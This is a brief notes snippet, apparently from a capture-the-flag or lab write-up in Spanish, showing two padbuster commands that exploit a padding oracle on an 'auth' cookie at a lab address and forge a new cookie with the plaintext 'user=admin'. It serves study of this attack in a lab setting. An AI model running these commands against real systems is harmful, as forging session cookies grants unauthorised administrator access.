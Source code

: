 
### EXPLOTAR PADDING ORACLE
```shell
padbuster http://10.10.10.18 2zKLNWhe0Xt7G4ymYDK%2BEdptckP8a8vO 8 -cookies auth=2zKLNWhe0Xt7G4ymYDK%2BEdptckP8a8vO -encoding 0
```

### ASIGNAR NUEVOS VALORES
```shell
padbuster http://10.10.10.18 2zKLNWhe0Xt7G4ymYDK%2BEdptckP8a8vO 8 -cookies auth=2zKLNWhe0Xt7G4ymYDK%2BEdptckP8a8vO -encoding 0 -plaintext user=admin
```